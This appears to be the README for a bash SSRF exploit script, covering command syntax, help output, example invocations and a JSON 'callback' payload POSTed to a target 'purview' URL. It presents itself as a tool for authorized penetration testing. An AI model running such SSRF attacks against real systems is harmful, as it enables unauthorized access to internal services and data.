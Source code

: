 # SSRF Exploit Script

This repository contains a script designed to perform an SSRF (Server-Side Request Forgery) exploit for testing and educational purposes. **Use this tool responsibly and only in environments where you have explicit permission.**

## Features
- Exploit SSRF vulnerabilities in target systems.
- Validate input URLs to avoid misuse.
- Easy-to-use CLI interface with clear error messages and help menu.

## Requirements
- `bash` (Unix shell)
- `jq` (JSON processor)
- `curl` (Command-line tool for HTTP requests)

## Usage

### Syntax
```bash
./script.sh --exploit <target_url> <purview_url>
```

### Options
| Option             | Description                                      |
|--------------------|--------------------------------------------------|
| `-h`, `--help`     | Show the help menu.                             |
| `--exploit` `tu pu`| Perform the SSRF exploit with target and purview URLs. |

### Examples

#### Show Help Menu
```bash
./script.sh -h
```

Output:
```
Usage:
./script.sh --exploit <target_url> <purview_url>

Options:
-h, --help       - Show this help menu
--exploit <tu> <pu> - Perform the SSRF exploit with target and purview URLs
```

#### Perform SSRF Exploit
```bash
./script.sh --exploit http://example.com http://purview-url.com
```

Expected Output:
- If successful:
  ```
  SSRF exploit successful! Data retrieved:
  <response data>
  ```
- If unsuccessful:
  ```
  SSRF exploit failed! HTTP code: <code>
  ```

## Script Workflow
1. The script parses the provided arguments.
2. Validates the provided URLs for correctness.
3. Sends an HTTP POST request with a JSON payload to the `purview_url`, attempting to exploit an SSRF vulnerability.
4. Prints the HTTP response or an error message based on the result.

## Example Workflow
### Input
```bash
./script.sh --exploit http://callback-url.com http://vulnerable-purview-url.com
```

### Payload Sent
```json
{
  "callback": "http://callback-url.com"
}
```

### Response Handling
The HTTP response code and body are saved, and based on the status code, the success or failure of the exploit is determined.

## Error Handling
- If invalid or missing arguments are detected, the script provides detailed instructions via the help menu.
- If URLs are malformed, an error message is displayed, and the execution stops.

## Development Notes
This script is for testing purposes only. Misuse of this script can lead to severe legal consequences. Ensure compliance with all applicable laws and ethical standards.

## Contribution
Feel free to contribute by creating pull requests or reporting issues.

## License
[GNU GPL v3](LICENSE)

---

### Disclaimer
**This tool is intended for educational purposes and authorized penetration testing only.** The author is not responsible for any misuse or damage caused by this tool.

